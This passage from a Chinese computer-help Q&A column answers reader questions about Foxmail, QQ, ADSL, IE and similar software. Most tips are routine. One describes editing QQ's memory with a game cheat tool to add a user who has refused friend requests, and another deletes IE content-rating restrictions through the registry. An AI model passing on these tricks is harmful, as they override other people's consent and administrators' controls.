单击Foxmail主窗口工具栏中的“地址簿”按钮，右击打开窗口中的“公共地址簿”项，选择“新建文件夹”，然后再选择“公共地址簿”中的“默认”项，用鼠标选择该项下的所有联系人并直接拖放到刚才新建的文件中。再将“默认”项下面的所有联系人删除。接下来，再将“我的联系人”中的所有邮箱地址拖放到“公共地址簿”中的“默认”组中。这样设置后，就可以达到你的目的了。

## FlashFXP 中如何定时上传文件

问: 我们公司的网站服务器归我管理，为了不影响网友们正常访问，领导吩咐我每次更新数据时，都要在凌晨三点左右进行。我一般都是在自己家的电脑中使用 FlashFXP来完成。不知道能不能在FlashFXP中这样设置: 自动在三点钟执行上传文件操作，上传完毕将我的电脑设置为休眠状态，以方便我第二天查看相关情况。如果能，应该如何设置？(湖南 庄志勇)
答: 可以实现你的要求，需要利用FlashFXP主窗口中的“工具→计划任务”。
- (1)先连接你的公司服务器，并确保能正常连接。
- (2)将本地浏览器中的需要上传到服务器上的文件添加到下面的上传队列框中。
- (3)单击菜单“工具→计划任务”，在打开的窗口中设置执行的具体日期及时间(3:00)，在下面的“传送完成时”框中选择“休眠”项。不过，前提条件是你的系统已经开启了休眠功能。

## 为什么不能打开某一特定网页

问: 最近在单位自己的电脑上访问某一网站时，发现不能打开该网站的网页，而其他网站却能正常打开。另外，在属于同一个局域网上其他同事的电脑上却能正常打开我不能打开的网页。于是，我在IE浏览器中查找受限制的网站，但该网站并没有受到任何限制，请问我该如何解决这一故障？(山东 王晓丽)
答: 根据你的情况，可以看出IE并没有受到损坏，如果排除IE中受限制站点的原因，造成这一故障的原因极有可能是由于一些恶意程序屏蔽了该网站！一般情况下恶意网站是通过修改主机的hosts文件来达到的，如果是Windows 98/Me，该文件是在系统盘Windows目录中，如果你使用的是Windows 2000/XP，它位于C:\Windows\system32\drivers\etc中，找到并用记事本打开hosts(没有扩展名)文件后，然后在该文件的最后删除“127.0.0.1 该网站网址”的项并保存即可！

## 只导入 MSN Messenger 中的一个分组

问: MSN Messenger中，我只想将第一个账号中的一个联系人分组导入到另一个账号中。请问如何实现？(北京 王宁)
答: 打开第一个账号，右击需要导出的分组，选择弹出的快捷菜单中的“将组保存到文件”，并在弹出对话框中完成保存。接下来，登录第二个账号，然后单击窗口中的菜单“联系人→从已保存的文件中导入联系人”项，在打开的对话框中将先前保存的文件导入即可。

## 如何不让 QQ 泄漏我的 IP 信息

问: 我经常使用QQ聊天，知道别人可以通过使用能显IP地址的QQ来获得我的地域位置以及本机的IP地址。为了保密需要，请问如何避免好友获得我真实的地址信息呢？(北京 赵剑宇)

## 找回 Foxmail 的“每日一帖”

问: 一次在启动Foxmail后，“每日一帖”的“启动时显示”复选框被我去掉了，看不到提示窗口了，请问如何才能恢复？(河南 李习文)
答: 可以用下面的办法去激活它: 点击菜单“帮助→关于”，出现Foxmail的LOGO，用鼠标左键单击右下角的电脑图标按钮，程序就会立即弹出“每日一帖”了。

## USB 接口 ADSL MODEM 拨号无法接通

问: 我刚刚换了个USB接口的ADSL MODEM，拨号上网总是无法接通？请博士先生帮忙分析解决。(北京 刘玉)
答: 一般来说，出现这种情况是由于USB MODEM是通过USB接口供电，刚启动时间比较短，网络设备没有被激活或者线路没有被激活的原因，即ADSL MODEM没有被激活导致线路不通。
出现了类似问题，我们可以耐心地等待30秒至几分钟，再尝试连接，有时候一开机就可以连上，而有的时候要激活几分钟或者重新启动才可能连上；如果线路一直不能激活的话，则可能网络连线出现了问题，请及时电话咨询当地电信局，这种情况相对发生较少。

## 不用大软件也做漂亮按钮

问: 我正在学习制作个人主页，HTML语言已经入门，为了美化网页，我想在上面增加几个漂亮按钮，书上介绍说可以借助于类似Photoshop、Flash或Fireworks等大软件来制作。但掌握这几个软件不是一天半天的功夫，请问有什么傻瓜化的小工具来制作网页按钮？(山东 郭争忠)
答: 利用一款Crystal Button水晶按钮工具可以帮你在一分钟内打造出晶莹剔透的网页按钮。这款软件可以运行在目前常见的Windows 9x/Me/NT/2000/XP平台上，制作一个按钮只需要两步即可:
启动程序后可以看到，界面左边是常用的工具栏，右边是按钮模板，中间是按钮预览区，提供的模板有四类共84种按钮，你可以选择任意一种你喜欢的按钮，利用工具栏中的按钮设置工具对按钮进行文字、大小、纹理、灯光和材质等调整。调整满意后单击“编辑→导出品质”对即将生成的按钮进行文件设置，一般情况下采用默认设置就可以了。最后，单击“导出图像”按钮存盘即可。
该软件下载地址:http://sq2.onlinedown.net/down/HA-CrystalButtonv2.20.exe

## 一步到位自动拨号及断线重拨

问: 我是使用ADSL虚拟拨号接入宽带的，最令我头疼的是每次上网都需要拨号，断线后还需要重新拨号。请问有自动化的解决办法吗？顺便说明，我所用的操作系统是Windows XP。(内蒙古 杨小磊)
答: Windows XP使用内置的拨号软件只需要做一些设置即可实现自动拨号上网。具体步骤如下:
- (1)如下操作可确保开机后自动拨号: 利用Windows XP内置的拨号程序建立ADSL连接，并将该连接命名为“adsl”，注意在拨号窗口中选中“保存密码”项。打开“开始→设置→控制面板→计划任务→添加计划任务”，选择要执行的程序Windows\system32\rasphone.exe，并且选中“计算机启动时”，接着输入系统管理员的登录账号和密码。完成后双击计划任务中的“rasphone”一项打开其属性窗口，在“任务”选项卡的“运行”栏的命令后加上“-d 'adsl'”(请注意命令的格式: “-d”与原有内容之间有个空格，输入时注意去掉外面的全角引号)。
- (2)如下操作可确保系统注销后自动拨号:
打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon]，在右侧窗格新建一个名为KeepRasConnections的字符串值，将其值设置为1。
- (3)如下操作可确保网络断线时自动重拨:
右击“网上邻居”，选择“属性”，在弹出的窗口中右击第一步建立的ADSL连接，选择“属性”，进入“选项”选项卡，将“挂断前的空闲时间”设置为“从不”，勾选“断线重拨”，将“重拨次数”设置为100或者更多、“尝试重拨之间的时间”设置为1秒。

## 多个 QQ 同时快速自动登录

问: 我有3个QQ号码，虽然QQ有自动记录密码的功能，但是，它只能记录上一次登录的QQ密码。我只能在QQ登录以后使用“更改用户”功能，但是仍然要输入密码，极不方便。请问，如何能使QQ记住我的3个用户号码，以达到在登录时不用输入密码的？(新疆 王品言)
答: 解决这个问题其实很简单。首先，复制QQ所在的文件夹到另外的两个目录或者在重新命名以后粘贴在“Program Files”文件夹下，然后，分别用这3个QQ所在的文件夹中的QQ主程序登录不同的QQ号码，选中“记住密码”，分别在“启动”中作快捷方式，此后，每次启动电脑，你的3个QQ就会自动登录，再也不需要一遍遍地输入密码了。

## 如何在 Word 中快速插入服务器上的共享图片资源

问: 单位服务器上提供了一个图片资源共享的文件夹，每次通过Word插入图片时总是通过点击“插入→图片→来自文件”，然后在插入图片窗口中找到服务器上共享图片的文件夹，最后再找到并插入所需要的图片，但是这样速度非常慢，请问如何快速地从服务器上找到所需要的图片资源呢？(北京 小天)
答: 在Word中点击“工具→选项→文件位置”，然后在“文件类型”下的窗口中选中“剪贴画图片”，接着点击“修改”按钮，并在弹出的“修改位置”窗口中将文件的路径定位到服务器上的共享图片资源文件夹中即可。通过这样的设置后当需要插入图片时将会直接定位到服务器上共享的图片文件夹中。

## 用资源管理器方式打开 FTP 站点

问: 我重新安装了Windows XP SP2后，再打开FTP站点时，不像以前那样可以用资源管理器方式打开站点中的内容，而是以网页形式打开了。请问这是怎么回事，应该如何解决？(上海 李松民)
答: 你可以通过以下设置来解决: 单击IE主窗口中的菜单“工具→Internet选项”，在打开的窗口中选择“高级”选项卡，然后在“设置”列表中勾选“为FTP站点启用文件夹视图”项，最后单击“应用→确定”即可。

## eMule 搜索出韩文列表

问:我下载了最新版的eMule(电骡)，但搜索出来的列表字体好像都是韩文的，请问，这是什么原因？(天津 高民)

答:在搜索时，请勾选搜索关键字下面的“Search with Unicode”选项再进行搜索即可，这样搜索到的内容将会以中文或英文显示。

## 删除IE中的ActiveX控件

问:系统用了有快一年没有重装了，我的IE中陆续地安装了很多ActiveX插件。请问，如何将一些不用的插件卸载掉？(河北 李昊明)

答:不知道你的系统是什么版本的，如果是Windows XP SP2，可以直接通过插件管理器来进行卸载：单击IE主窗口中的菜单“工具→Internet选项”，然后再选择“程序”选项卡，单击“管理加载项”按钮，在打开的窗口中可以通过将不用的插件禁用掉，但是此种方法不能实现彻底删除。

如果想彻底删除相应的插件，你可以通过一款名叫ActiveX Manager(下载地址：http://www.onlinedown.net/soft/30727.htm)的小软件来进行卸载。

## 为何我的IE不能断点续传

问:我的IE是Windows XP SP2系统自带的，听说这个版本的IE支持断点续传了，但是我在下载一个大文件时，下了一半后单击“取消”后关闭计算机，第二次下载时却从零开始重新下载。这是什么原因？(河南 赵庆红)

答:IE6.0开始支持断点续传功能了，不过要想使用IE的断点续传功能，你必须要满足以下几点：

- 1. 关闭IE或是关闭系统时，不能清空Internet临时文件夹，因为IE在下载文件时，会先将下载下来的文件保存到临时文件夹中。对于IE本身来说，你必须确保关闭IE时不自动清理临时文件夹：单击主窗口菜单“工具→Internet选项”，在打开的窗口中选择“高级”选项卡，然后取消选择“关闭浏览器时清空Internet临时文件夹”选项，保存设置。
- 2. 在下载时，要想断开当前正在下载的文件，你不要直接单击下载对话框中的“取消”按钮，应该直接单击对话框右上角的关闭按钮。因为，你单击“取消”按钮后就会直接停止所有的下载并且自动清空已经下载到临时文件夹中的文件了。
- 3. 如果你使用的是IE浏览器还不是IE6.0或以上版本，可以到http://dg.download.21cn.com/file1ol/plugin/liulanqi/ledownloadplus.zip下载一个插件来让IE支持断点续传功能。

## 取消IE默认使用网际快车下载

问:我安装了网际快车后，每次单击IE中的下载链接时就会自动启动网际快车来下载。我现在想让IE恢复到默认使用IE自身来下载，要想用网际快车下载时使用右击方式。请问，如何设置？(江西 李小可)

答:打开网际快车，然后单击主窗口菜单“工具→选项”，在打开的窗口中选择“监视”选项卡，然后取消选择“Internet Explorer”选项，保存设置即可。这样设置后，要想在IE中使用网际快车来下载文件时，只要右击下载链接，选择“使用网际快车下载”项即可。

## 加任意号码到QQ好友名单中

问:我从论坛中得知某人的QQ号码，想和他联系，但当加其为自己的QQ好友时，发现对方设置了拒绝加好友功能，我又没有其他办法和他联系。请问这时有什么办法把该号码列入好友列表？(山西 陈千)

答:下面的方法可以随意加任何人的QQ号到你的QQ好友名单中，不管对方是否设置了拒绝加入。

首先准备一款游戏修改软件备用，如FPE或Game Master8.0。

我们知道，向QQ好友发送消息时，他的QQ号码会出现在内存地址中，并以明文保存。如果我们能找到这个好友的QQ号码在内存中的地址，并将这个内存地址中的数据即该QQ号码换为你想加入的那个人的QQ号，并锁定该数据，这样只要不关机，无论你怎么开关QQ，内存地址中“记住”的永远都是这个新QQ号。点击这个QQ好友准备发送消息，更新资料，你会发现他的号码变为你想加入那个人的QQ号码了！利用这个特性，我们可以尝试将任何QQ号码加入到你的QQ列表中。

假设你要加的号码是1234567。你可以先加一个无需身份验证的QQ号码，比方说你的另一个号码7654321，然后启用FPE或Game Master，在其中找到QQ的主文件QQ.EXE，然后像修改游戏一样，查找7654321这个号码，一般情况下你会找到好多这样的地址，将它们全都改为你要加的号码1234567，再运行QQ，在你的QQ好友列表中就会出现1234567这个号码了，这时你就可以发消息给这个人了，但是你发的消息只能出现在对方的“陌生人”名单里。

## 不要轻易迷信谎转信息

问:我常收到QQ好友发来的转发信息，比方说有类似这样的内容：“为节省有效的网络资源，腾讯公司决定收回一部分QQ号码。现决定用此信息进行验证，在收到这条信息10日内请务必发给你的20位好友。否则你的QQ有可能被收回。”请问，收到类似这样的消息，如果照办有什么坏处吗？(广东 朴可芬)

答:对此类现象大家可能已经习以为常了，不过有些朋友真的就按照这个转发的信息去做了，反正觉得这样做了也没什么大不了的事情。但对于整个网络环境来说，这样做并不好，因为如果你转发给20个QQ好友，这20个人如果也照办每个人再转发给其他20人，那么这个信息的传播速度将会成倍增长，对QQ服务器来说是一种极大的资源消耗，假如有许多人都这么迷信，也都这么干，腾讯的服务器非瘫痪不可，这样你就会无形中成为别人的帮凶，所以如果我们再收到类似信息请不要跟风为好，让我们人人都做维护网络道德的模范。

## 多机共享上网后为何速度变慢

问:我们的小区宽带为何晚上网速比白天慢得多？另外，多机共享ADSL上网网速为何有的机器快有的机器慢？(四川 老嫂子)

答:共享上网的速度主要取决于使用的上网方式以及网络带宽，目前一般常用的ADSL带宽主要有512KB、1MB、2MB，Cable MODEM和小区宽带带宽甚至为10MB，但是其实际的速度往往取决于供应商的服务质量，有时候并不能达到所标称的速度。一般来说，1MB带宽的网络供1～12个人上网浏览、聊天和收发电子邮件等日常使用都没有问题，所有的用户共同分享1MB的带宽，但是带宽并不是平均分配给每台计算机，如果其中的一台或者几台机器同时使用多线程的下载工具下载文件或者玩一些占用带宽较厉害的网络游戏，那么就会大量占用带宽，造成其他计算机网速太慢，甚至无法浏览网页。如果经常出现类似情况，可以建议网内用户使用单线程下载或者选择上网密度不大的时间段下载资料。

## 共享宽带上网的多种实现方法

问:我有两台电脑原来是使用网卡互联，后来把其中的一台电脑的网卡连接到宽带上，我有哪些方法可以让另一台电脑也能连接到宽带上？(江西 何日)

答:解决共享上网问题，比较传统的方法有以下三种：

- (1)使用HUB或者交换机，将宽带网线直接连接到HUB或者交换机上，然后通过两台电脑的网卡分别同HUB或者交换机相连，就可以通过共享软件来共享宽带了。
- (2)在已经连接宽带的机器上再安装一片网卡，将另外一台电脑的网卡与之相连，通过网络共享软件来共享上网。
- (3)如果资金相对充裕的话可以选择一台宽带路由器，将宽带的网线接在路由器的WAN端口，再将两台电脑网卡与路由器的LAN端口相连接，配置好路由器的PPPOE拨号功能就可以让任意一台电脑独立上网了。

用户可以根据自己的情况选择合适的共享上网方案。

## 如何让MSN Messenger不干扰我

问:每次我在安装程序或是全屏观看电影时，我的MSN Messenger就会自动转为忙碌状态，不知道这是什么原因？

答:这是MSN Messenger的默认设置。只要单击其主窗口菜单“工具→选项”，在打开的窗口中选择“个人信息”选项卡，取消勾选“当我运行全屏程序时(如幻灯片放映)，将我的状态显示为‘忙碌’并阻止通知”，最后单击“确定”即可。这样，如果你看电影或玩游戏的时候，好友上线等通知信息就不会干扰你了。

## 如何彻底删除Mozilla Firefox

问:我的系统是Windows XP SP2，安装了Firefox，使用过一段时间后感觉没有IE用得惯，我想将其从系统中删除掉，但很多先前安装的插件无论如何也删除不了。卸载了重新安装，再卸载也不行。请问该如何解决？

答:先从控制面板中将Firefox删除掉，然后再手工删除C:\Documents and Settings\username\Application Data\Mozilla下面的文件即可。

## 解决由于使用MS AntiSpyware后无法上网的问题

问:我的系统是Windows XP SP2，我安装并运行了Windows AntiSpyware后，本地局域网弹出“Limited or no connectivity”错误提示并且不能上网了。请问如何解决？

答:只要按下述方法操作即可：

- 第一步：利用其他电脑或是到网吧，从http://www.pchell.com/downloads/SP2ConnectivityFix.zip下载一个补丁包，再将它拷贝到出故障的计算机中，解压后运行其中的WindowsXP-KB884020-x86-enu.exe，然后再双击FixReg.reg将其导入到注册表中。
- 第二步：再下载另一个修复工具WinsockXPFix.exe (http://www.pchell.com/downloads/WinsockXPFix.exe)，运行WinsockXPFix.exe，选“Fix”，最后重新启动系统即可。如果还不行，你也可以在命令行窗口中执行命令“netsh winsock reset”，运行后再重启系统即可。

## Q币能否转让

问:我知道可以在QQ中赠送一些诸如QQ秀的商品给好友。我想将自己的Q币送一些给我的好友，不知道如何实现？

答:在QQ中，你可以方便地为你的QQ好友购买诸如QQ秀这样的商品。而Q币是QQ世界中的“钱币”，虽说是虚拟的，但它在QQ软件中可以实现很多功能，例如QQ会员，订阅QQ杂志等，但是它却无法被拿来当礼品赠送。其实你可以通过拨打声讯电话(16886366)帮助你的朋友们购买Q币，这样更方便。

## OE无法收取新申请的Hotmail邮件

问:我刚申请了一个Hotmail邮箱，试图使用OE来收取这个新申请邮箱中的邮件时，总是不能成功。而我以前申请的那个Hotmail邮箱中的邮件却可以正常收取。已经排除了OE中设置不当的因素，请问这是什么原因？

答:最近微软对免费的Hotmail邮箱做了限制，只有那些收费的或是以前申请的Hotmail邮箱账号才可以支持邮件客户端程序来收、发邮件，而新申请的Hotmail邮箱则不再支持邮件客户端程序了。在目前来讲，你只能通过浏览器打开邮箱网页来进行邮件的收发操作。

## 新打开的网页为何总是自动显示出来

问:我现在不用IE浏览器，改用腾讯TT浏览器。每次打开新页面时，新页面总是自动置于屏幕最前端，这样有的时候非常不方便。请问，如何设置才能不让新打开的页面置于最前端？

答:在TT浏览器主窗口中单击菜单“工具→选项”，在打开的窗口中选择左侧面板中的“浏览”项，然后勾选“总是在后台打开新页面窗口”选项，再单击“确定”按钮即可。另外，Maxthon和GreenBrowser都有这样的功能，也可以用类似方法设置好。

## 如何把Foxmail中的未发送邮件导入到OE中

问:我以前使用Foxmail，最近改用Outlook Express。我想将Foxmail中的未发送邮件箱中的邮件导出到Outlook Express中的未发送邮件箱中，通过向导来完成却不能成功。请问有没有其他办法？

答:首先，在Foxmail中先前未发送邮件箱中的邮件导出为EML文件。然后打开Outlook Express程序并登录你的账户，再直接将先前导出的EML文件通过鼠标拖放到Outlook Express的未发件箱中即可。此法也可以应用于将邮件导入到Outlook程序中。

## Foxmail的地址记忆功能备份

问:在使用Foxmail的过程中，我发现当在写邮件时输入一个电子邮件地址后，Foxmail会自动将其记录下来，下次如果再输入这个地址的前几个字母系统就会自动补充完整，很方便。但重装Foxmail后这些地址就都没有了，我想知道如何才能把这个自动记忆功能备份下来以备重装Foxmail后恢复。(江苏 郝风录)

答:自动补全地址功能其实主要是利用了Foxmail安装目录下的Foxmail.adc文件，该文件记录了所有输入过的地址，当你输入某个地址时，Foxmail会自动与已经记录的地址进行比较，如果前面的字母相同则自动补全。如果你想让新装的Foxmail系统也能把输入的地址自动补全，只要在删除Foxmail软件前把Foxmail.adc文件备份下来，重新安装Foxmail后将Foxmail.adc文件拷贝到安装目录中即可。

## 不能直接全部导入的列表下载法

问:在论坛上经常看到网友贴上一串MP3的网址供人下载，但有时发现不能直接用右键将它们加入到FlashGet中下载，因为别人贴出来的往往是字符式网址，而不是可以直接点击的链接。请问这时该怎么成批下载？(南京 小菜)

答:可以用FlashGet的导入列表功能将列表导入后进行下载。具体步骤是：

- （1）新建一个文本文档，然后将所要下载的网址全部复制进去，然后保存。
- （2）启动FlashGet，选择“文件→导入列表”命令，这时会出现一个“打开”对话框，默认的打开文件类型为“*.lst”，我们从文件类型中选择“全部文件（*.*）”，找到刚刚复制好的文本文档，单击“打开”按钮，并单击“确定”按钮即可。
- （3）如果要下载的文件比较多，此时还会出现一个提示窗口，询问你“其他的文件是否使用同样的设置？”，这时只要勾选“不要再次询问”，然后单击“是”按钮就可以下载了。

可喜的是，目前最新版本的FlashGet已经能够支持mms等协议开头的网址了，以前只有通过专用流媒体工具下载的内容，现在完全可以用FlashGet一网打尽了。

## Windows 98机器无法登录域

问:局域网的电脑并存有Windows 98、Windows 2000、Windows XP等操作系统，域是ABCDE。有一台Windows 98的电脑每次开机都是自动登录，但不是登录到域，而是登录到本机。请问此问题该怎么解决？(内蒙古 梁瑛)

答:在桌面上用鼠标右击“网上邻居”，从出现的菜单中选择“属性”（或者从“控制面板”中双击“网络”图标），进入之后先双击“Microsoft网络用户”，从出现的属性对话框中选中“登录到Windows NT域”，在“Windows NT域”下面输入ABCDE，然后单击“确定”按钮返回到网络属性对话框。从“主网络登录”下面的列表中选择“Microsoft网络用户”，单击“确定”按钮，按照提示重启Windows 98即可。

## 清理历史记录功能为何失效了

问:我安装了超级搜霸后，当选择了清理IE地址栏的下拉列表和历史记录，执行垃圾清理功能后，IE地址栏下拉列表中的网址依然存在。请问这是为什么？如何解决？(广西 何永亮)

答:超级搜霸中与IE相关的修复功能、清理功能、系统加速功能等，执行后需要在新的IE窗口中才能生效。请在执行清除功能后重新开启一个IE窗口，其地址栏的下拉列表中就不会有以前的网址存在了。

## 成批优化网络图片有傻瓜办法

问:我想把一些自己拍摄的数码照片用到个人主页上，因为拍摄下来的照片使用JPG格式，而且图片文件容量较大，所以希望压缩容量，但不希望画面质量损失太大。请问用什么办法可以实现？尽量用简单一些的自动化处理办法，因为我有大量图片要处理。(甘肃 付俊山)

答:虽然制作比较精细的图片看起来非常美观，但如果放在网页上，因文件个头大，非常影响整个网页的运行效率。为了在设计网页时在图像质量和图像大小之间找到一个合适的比率，最为省事的办法莫过于借助友立公司出品的PhotoImpact（Photo硬派）软件中所带的图像优化器来解决。这个软件是一款为非图像专业人员设计的比较傻瓜化的软件，操作很简单。只要你选择了要处理的图片，然后启动“图像优化器”在其中设置各项优化参数进行优化即可，它具有批处理功能，可以预览优化效果，从成批优化效果中进行选择。

## BitComet 下载前申请磁盘空间是否能减少对磁盘的伤害

问:我使用BitComet来下载文件，其中有一项设置“下载前先申请磁盘空间”，这一点类似于FlashGet中的设置。在FlashGet中这样设置可以避免磁盘频繁地写文件，从而可以减少对磁盘的伤害。请问，在BitComet中这样设置是否可以达到同样的目的？(北 理想天)

答:BitComet现在已经具备缓存功能，对磁盘影响已经很小了，不像以前那样一旦下载文件时，硬盘灯就亮个不停。而你提到的这个先申请磁盘空间的功能是指在下载文件前先申请一块磁盘空间，这样做的好处是尽量减少磁盘上的碎片，而与损坏硬盘之间的联系不大。建议勾选该选项。

## Firefox下载论坛上的附件的问题

问:我使用的是Firefox 1.0浏览器，以前还可以正常下载论坛中的一些帖子中的附件，现在想下载附件时，下载回来的却是attachment.php。请问这是什么原因？(北京 赵凤翔)

答:目前，Firefox不支持PHP制作出的网页中的附件，而你下载附件的论坛代码刚好是PHP的。另外，中文文件名的附件也经常会出现这样的情况。你可以通过第三方下载软件（例如FlashGet）来下载文件，避免出现类似的情况。

## 自动断开连接 替我省钱

问:我使用的是电信的ADSL记时拨号上网，以前包月不限时无所谓，但现在每个月限制了使用时间，超过了会自动算在电话费账单中。我想让系统在连接空闲五分钟后就自动暂时断开连接，请问如何实现？

答:打开IE窗口，然后单击菜单“工具→Internet选项”，在打开的窗口中选择“连接”选项卡，然后在“拨号和虚拟专用网络设置”列表中选择你用来拨号上网的连接，然后再单击“设置”按钮，在打开的窗口中再单击“拨号设置”框中的“高级”按钮，在打开的窗口中勾选“空闲”选项，然后在后面的小框中输入“5”。另外，建议你再勾选上“不再需要连接时断开连接”选项，最后单击“确定”按钮，就可以达到你的目的了。

## 为什么不能打开任何网页

问:我的系统是Windows XP SP2，使用IE浏览网页。最近不知道什么原因，只要试图打开一个网页，就会弹出错误对话框“内容审查程序”，并且提示“抱歉！内容审查程序不允许您参阅这个站点”。请问如何解决？(浙江 宋春宁)

答:这是IE的分级审查导致的，现在有很多工具可以清除这个密码（例如“超级兔子”）。不过，也可以通过修改注册表来解决：
打开注册表编辑器。找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies]，右击“Ratings”键将其删除，退出注册表编辑器，同时进入系统目录(Windows\System)下，将相应的文件Ratings.pol也删除掉，然后重启电脑即可。

## FlashFXP下载FTP服务器文件经常卡住

问:我在使用FlashFXP下载FTP服务器上的文件时，经常在下载过程中突然卡住，甚至有时下载到100%了还出现卡住的现象。请问这是什么原因？(山东 胡建东)

答:你所说的“卡住”是控制链接已经丢失或中断造成的，如果服务器端配有硬件防火墙时这种现象比较明显，它会自动杀掉长期空闲的链接。可以通过在FlashFXP中进行设置解决这个问题：
单击菜单“选项→参数设置”，在打开的设置窗口中选择“连接”选项卡，然后再勾选“传送时发送保持活动命令”选项，保存设置即可。

## Outlook 2003中直接预览附件中的图片

问:以前我一直使用Outlook Express来收、发邮件，现在改用了Outlook 2003。在Outlook Express中打开一个带有图片附件的邮件时，可以直接预览这个图片，而在Outlook 2003中却不可以达到同样的目的。经常因为害怕是图片病毒而不敢轻易地打开附件。请问，能不能让Outlook 2003也能实现图片附件的预览功能？

答:Outlook 2003本身不能实现预览图片的目的。不过，你可以通过一个插件来达到目的。从http://download.enet.com.cn/html/010112001071702.html将名为Outlook Helper的插件下载并安装到系统中，就可以达到目的的了。

## Foxmail 5.0无法收发126.com邮件

问:我刚刚申请了一个126.com大信箱，可是我发现无法用Foxmail 5.0收发这个信箱的邮件。请问这是怎么回事？

答:由于在Foxmail 5.0推出的时候126.com信箱没有开通，软件的邮件服务器数据库中没有该信箱的资料，因此系统在建立账号的时候自动生成的默认邮件服务器为信箱的后缀126.com。实际上该信箱的POP3和SMTP服务器名称分别为pop3.126.com和smtp.126.com。解决办法是，只要在Foxmail 5.0的账号属性中将邮件服务器信息纠正过来即可。

### 傻博士

### Foxmail 5.0无法发送126.com邮件
重庆读者董吉庆问：用Foxmail 5.0可以收126.com邮件，但不能从126.com邮箱向外发送信件，而同一个Foxmail管理下的其他信箱都可以发信。我的126.com邮件服务器的“发送邮件服务器”地址框中显示的是smtp.126.com，下面的“SMTP服务器需要身份验证”复选框也处于选中状态，按说没有问题。该邮箱从网页上发信一切正常。请问，问题可能出在哪里？

答：从你上面介绍的情况来看，既然别的邮件发送没有问题，126邮箱收信也没有问题，那么问题肯定还是出现在发送邮件服务器的地址设置上，很可能是你的发送邮件服务器地址的后面加上了空格，而感觉上空格被忽略所致。请将发送邮件服务器地址框中多余的空格删除，然后按“确定”即可。

### ADSL Modem突然无法上网的问题
宁夏读者刘海燕问：我的一只一向使用良好的ADSL“猫”，突然无法上网了？可能是什么原因？如何应对？

答：出现这样的问题，可能的原因很多，在排除硬件损坏和线路损坏的情况下，主要可能有如下原因：
- 网络设备过热而出现工作不稳定的情况。
- IP调整过程中的自动断线。
- 电信局网络系统崩溃，这种情况出现的几率也很小，不过偶尔也可能发生。

解决办法：如果是网络设备过热出现工作不稳定的情况，一般来说这样的情况下设备马上可以自动连接上；由于ADSL Modem的发热量还是比较大，手摸上去就很烫，为了设备稳定地工作，还是将其放置在通风比较好的地方。由于ADSL的IP地址是动态分配的，因此刚好有时候其IP要调整，就会出现突然掉线的情况，这种情况一般不需要在意，几秒钟之后就可以自动连接上，如果连不上，按一下RESET IO键关闭，然后再启动，就可以连接上了。如果以上都不能解决问题，可以电话咨询你的ISP，确定一下是否是网络中心出现了问题。

### 声称是1Mbps的ADSL网速为何很慢
贵州读者王磊磊问：安装ADSL宽带时声称网速可以达到1Mbps，但上网后感觉网速很慢。请问这是为什么？

答：一般来说，1Mbps的ADSL宽带的速度对于我们日常的使用（高清晰的视频点播除外）或者几个人的使用来说，应该足够了，但是有时候也有打开网页很慢的情况发生。

分析其原因，首先，可能是个别WEB服务器繁忙。如果打开其他的网页不慢的话，则网络应该没有问题，是由于个别WEB服务器比较忙而导致的网速很慢。其次，可能是拨号软件和操作系统之间的兼容性问题。再次，还有可能就是线路质量或者是距离问题，因为ADSL使用的是电话线，如果距离过长就会出现信号衰减而导致网速减慢。可以用如下办法解决：

如果是因个别WEB服务器繁忙则不是你个人能够解决的，建议稍后再试几次。在使用拨号软件方面，如果使用Windows XP操作系统，则系统自带拨号工具，不需要另外的拨号软件，如果使用其他系统，则建议使用RASPPPOE拨号软件。如果是线路质量或者距离原因引起的，请与你的接入服务商联系解决。

### 百度超级搜霸工具条哪里去了
太原读者刘三根问：为什么我安装完百度超级搜霸，提示安装成功，却没有看到超级搜霸的工具条？

答：如果你看到提示百度超级搜霸安装成功的页面，说明超级搜霸已经成功安装，可以正常使用了，不管是否有工具条出现。如果你没有在IE工具栏中看到超级搜霸的工具条，可能的原因解决方法如下：
- 超级搜霸显示项目没有被添加至当前工具栏。请在IE浏览器的工具栏上点击鼠标右键，在出现的菜单中找到“百度超级搜霸”并将其勾选，超级搜霸的工具条就会出现在当前的IE浏览器的工具栏中。
- 如果你使用的是Windows 2003，请将IE“工具→Internet选项→高级→辅助功能”中的“启用第三方浏览器扩展”一项选中，重启系统，然后重新打开IE窗口，在新的IE窗口中就可以看到超级搜霸的工具条了。

### ADSL Modem为何“准时”掉线
河南读者张兆库问：有时ADSL Modem常常会在某个特殊的时刻“准时”发生掉线故障，更为奇怪的是，在过一段时间后它又可以自动重新拨号上网了，并且该现象在某一时期内不断重复，不知道这是怎么回事？

答：ADSL Modem之所以会出现“准时”掉线现象，多半是由于该设备在上网高峰期或用电话的高峰期这些特殊时刻，抵抗外界的干扰能力差造成的。为了避免这种现象，你不妨选购一款品牌正、性能好的优质ADSL Modem设备；同时与ISP的专业技术人员进行联系，请他们帮忙检查一下电话线路的通信质量，看看电话线路是否在特定时刻容易受到外来干扰。

### 防火墙冲突导致无法上网故障
甘肃读者高拉栓问：我单位的局域网采用Windows XP的ICS共享Internet连接上网，主机装有瑞星杀毒软件2004版及瑞星防火墙，Internet连接防火墙也开启，网内计算机通过主机共享上网，操作系统为Windows 98/2000/XP多种，装有瑞星杀毒软件2004版及瑞星防火墙，并开启了系统Internet防火墙。主机IP为192.168.0.1其余机器为192.168.0.x，工作组均设置为MSHOME，子网掩码均设置为255.255.255.0。虽然ICS主机能正常访问Web网站，但局域网中的其他计算机却不行。请问该如何解决这个问题？

答：可通过如下办法排除故障：首先，在Windows XP ICS主机上，只能启用一款网络防火墙，不能同时启用瑞星防火墙和Internet连接防火墙。试着关闭Internet连接防火墙。

其次，局域网客户端不能启用防火墙，无论是瑞星防火墙还是Internet连接防火墙，否则，将导致资源共享和Internet连接共享失败。试着关闭所有的防火墙，问题应该可以得到解决。

### “超级终端”窗口无法输入命令
北京读者封晓阳问：采用Modem在Windows 98平台下实现双机互联，在设置“自动应答”时，“超级终端”的窗口无法输入命令。请问该怎么办？

答：这是操作系统功能不完善造成的原因，在Windows 98中出现的频率非常高。重装该组件（建议使用Windows Update将该组件升级到最新版本）或升级、重装操作系统即可解决。

### 安装QQ后运行时找不到MSVCP60.DLL
北京读者毛毛虫问：我最近安装一个新版QQ，装完后运行时出错，提示找不到MSVCP60.DLL文件。请问这是什么原因？我下载的QQ安装文件有问题吗？

